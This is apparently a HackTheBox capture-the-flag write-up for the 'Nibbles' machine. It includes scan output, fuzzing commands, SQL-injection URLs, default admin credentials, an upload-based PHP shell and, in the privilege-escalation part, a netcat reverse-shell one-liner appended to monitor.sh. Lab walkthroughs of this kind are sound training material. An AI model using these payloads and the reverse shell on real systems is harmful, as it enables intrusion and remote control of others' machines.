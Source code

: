 ```yaml
---
title: "Nibbles"
date: 2024-07-20
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "nibbles", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


Nibbles simulates a lightweight web server hosting a blog engine vulnerable to hardcoded credentials and file upload flaws.
Access was gained using default creds, followed by uploading a PHP reverse shell through a poorly secured admin panel.
File extension filtering was easily bypassed with common tricks, demonstrating the importance of proper server-side validation.
Privilege escalation came from a SUID binary that allowed access to restricted paths using wildcard expansion.
Nibbles serves as a reminder that even small, hobbyist services can open big holes in a system if misconfigured.

OS: Linux 

Difficulty: Easy

## Enumeration

### Nmap

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### HTTP

![screenshot](/assets/images/nibbles1.png)

![screenshot](/assets/images/nibbles2.png)

#### `/nibbleblog/`

![screenshot](/assets/images/nibbles3.png)

![screenshot](/assets/images/nibbles4.png)

####  `/nibbleblog/admin/`

![screenshot](/assets/images/nibbles5.png)

http://10.10.10.75/nibbleblog/plugins/about/plugin.bit

![screenshot](/assets/images/nibbles6.png)

>nibbleblog 3.7

#### Fuzzing

```sh
# subdomain
ffuf -u http://10.10.10.75 -H "Host: FUZZ.usage.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

# dir
feroxbuster -u http://10.10.10.75/nibbleblog -C 404 -A -e -S 0 --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -o nibbleblog_ferox
```

http://10.10.10.75/nibbleblog/content/private/users.xml

![screenshot](/assets/images/nibbles8.png)

## Foothold

### SQLi

https://www.exploit-db.com/exploits/35865

![screenshot](/assets/images/nibbles7.png)

```sh
# original 1
http://10.10.10.75/nibbleblog/index.php?page=admin' OR 1=1 -- //

# URL encoded
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1%20--%20//

# URL encoded 2 
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1;--%20-

# original 2
http://10.10.10.75/nibbleblog/index.php?idpost=admin%20OR%201=1%20--%20/

```
### Admin portal

![screenshot](/assets/images/nibbles10.png)

![screenshot](/assets/images/nibbles9.png)

>`admin : nibbles`

![screenshot](/assets/images/nibbles11.png)

nibbleblog version 4.0.3

### https://github.com/hadrian3689/nibbleblog_4.0.3

![screenshot](/assets/images/nibbles12.png)

https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

![screenshot](/assets/images/nibbles13.png)

Upload the shell to Plugins : My Image

![screenshot](/assets/images/nibbles14.png)

Navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![screenshot](/assets/images/nibbles15.png)

Click Image.php

![screenshot](/assets/images/nibbles16.png)

## Privilege Escalation

### Enumeration

![screenshot](/assets/images/nibbles17.png)

### Attempts

```sh
# Inserting a reverse shell one-liner in a script
echo >> monitor.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f" >> monitor.sh
```

![screenshot](/assets/images/nibbles18.png)

![screenshot](/assets/images/nibbles19.png)

